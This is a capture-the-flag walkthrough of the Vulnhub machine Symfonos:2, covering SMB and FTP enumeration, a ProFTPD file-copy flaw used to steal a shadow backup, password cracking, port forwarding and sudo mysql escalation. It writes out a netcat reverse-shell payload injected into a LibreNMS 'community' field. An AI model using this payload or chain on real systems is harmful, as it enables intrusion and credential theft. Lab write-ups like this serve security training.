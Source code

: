 # Symfonos:2 - Writeup 

Symfonos:2 is an OSCP-like Intermediate real-life based machine from Vulnhub by Zayotic.<br />
This machine is designed to teach the importance of understanding a vulnerability.<br />

Link to the machine: [https://www.vulnhub.com/entry/symfonos-2,331/](https://www.vulnhub.com/entry/symfonos-2,331/)
<br />

## Target Discovery

Let's start by identifying our target IP address.

```
fping -agq 10.10.10.0/24
10.10.10.1
10.10.10.2
10.10.10.10
```

<br />

## Port scanning

Let's scan for open ports, running services, and version detection.

![](Pics/nmap.png)
<br />
<br />

## FTP Enumeration

Let's start by login into ftp.

![](Pics/ftp.png)
<br />
<br />

Anonymous login isn't allowed.

<br />

## Web Enumeration

Let's visit the web server.

![](Pics/web.png)
<br />
<br />

Just a picture and nothing in the source code. I run `gobuster` and `nikto` but nothing was found.<br />
<br />
<br />

## SMB Enumeration 


Tried to list any shared in the target machine and we got an `anonymous` share.<br />
Inside it, we found a `backups` directory which contains `log.txt`, download it.

![](Pics/smb.png)
<br />
<br />

It's a log file containing samba config, and as you see in the first line, there's a backup, a copy of the `shadow` file in `/var/backups/shadow.bak`.

![](Pics/smb2.png)
<br />
<br />

And there's ftp config with a user `aeolus` , and his shares as `anonymous`.

![](Pics/smb3.png)
<br />
<br />

## Getting Access

Reviewing my nmap result, the ftp is version `ProFTPD 1.3.5`, it's old, search for a known vulnerability.

![](Pics/search.png)
<br />
<br />

This vulnerability gave us the ability to copy from we could say `/var/backups/shadow.bak` to `/home/aeolus/share`, and then we could download it via smb.<br />
Let's first copy the shadow file.

![](Pics/ftp2.png)
<br />
<br />

Access `anonymous`'s share and download the file.

![](Pics/ftp3.png)
<br />
<br />

Now, let's crack `aeolus` password with `john`.

![](Pics/john.png)
<br />
<br />

ssh with `aeolus` and his password.

![](Pics/ssh.png)
<br />
<br />

Start searching for a way to escalate our privileges but nothing was found.

![](Pics/shell.png)
<br />
<br />

Upload linpeas for more enumeration.

![](Pics/lin.png)
<br />
<br />

We got apache running with `cronus` perm.

![](Pics/lin2.png)
<br />
<br />

This machine is listening on port `8080` which is allowed for localhost only.

![](Pics/lin3.png)
<br />
<br />

There’s another website running on port `8080` and to access it, we need port forwarding.<br />
exit from ssh, and enter `ssh -L 8080:127.0.0.1:8080 aeolus@IP`.

![](Pics/forward.png)
<br />
<br />

On our main host, open a browser and visit `127.0.0.1:8080`.

![](Pics/web2.png)
<br />
<br />

Tried to log in with `aeolus` and his password.

![](Pics/web3.png)
<br />
<br />

After exploring this app, search for any exploits.

![](Pics/search2.png)
<br />
<br />

There's a Metasploit and python, they are the same exploit, but I'll use the python one.<br />
Let's read the exploit.

![](Pics/exp.png)
<br />
<br />

We could do it manually, add a new device, leave everything at default and add the payload `'$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> <PORT> >/tmp/f) #` in `community`.

![](Pics/exp2.png)
<br />
<br />

Click on `Overview/Maps/Availability`, and click on `exp`.

![](Pics/web4.png)
<br />
<br />

Click on this little gear menu, then click on `Capture`

![](Pics/web5.png)
<br />
<br />

Start a listener, and click on `SNMP` tab, then `Run`.

![](Pics/exp3.png)
<br />
<br />


## Root Access

Checking `cronus` sudo permissions.

![](Pics/priv.png)
<br />
<br />

We can run `mysql` with no password, searching in [https://gtfobins.github.io](https://gtfobins.github.io)

![](Pics/priv2.png)
<br />
<br />

Let's abuse `mysql` to get root.

![](Pics/root.png)
<br />